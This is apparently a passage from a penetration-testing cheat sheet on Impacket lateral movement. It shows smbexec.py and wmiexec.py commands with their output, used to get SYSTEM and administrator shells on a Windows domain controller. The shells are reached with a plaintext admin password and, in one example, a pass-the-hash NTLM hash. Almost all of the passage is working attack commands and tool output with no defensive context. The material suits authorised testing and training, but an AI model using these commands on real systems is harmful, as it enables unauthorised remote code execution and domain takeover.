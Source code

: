 ```plain
drw-rw-rw-          0  Mon Mar 16 18:09:38 2020 System Volume Information
drw-rw-rw-          0  Tue Mar 17 16:10:54 2020 Users
drw-rw-rw-          0  Tue Mar 17 16:12:50 2020 Windows
-rw-rw-rw-          8  Wed Mar 18 13:10:48 2020 __output
```

### SMBexec - Start SYSTEM shell

{{%attachments title="Related files" fa_icon_class="far fa-file-video" pattern="smbexec.mp4"/%}}

#### Start RCE via SMB

```plain
smbexec.py <domain>/<domain-or-local-admin-or-user>:<password>@<domain-controller-ip>
```

```plain
smbexec.py offsec.nl/administrator:Welkom1234@10.10.10.16

Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
```

### WMIexec - Executes a semi-interactive shell using Windows Management Instrumentation

Enters as the user, not SYSTEM

```plain
$ wmiexec.py offsec.nl/administrator:Welkom1234@10.10.10.16

Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation
[*] SMBv2.1 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands

C:\>whoami
offsec\administrator
```

Enter with hash instead of password

```plain
$ wmiexec.py administrator@10.10.10.16 -hashes :0e0363213e37b94221497260b0bcb4fc Impacket v0.9.24.dev1+20210726.180101.1636eaab - Copyright 2021 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>
```
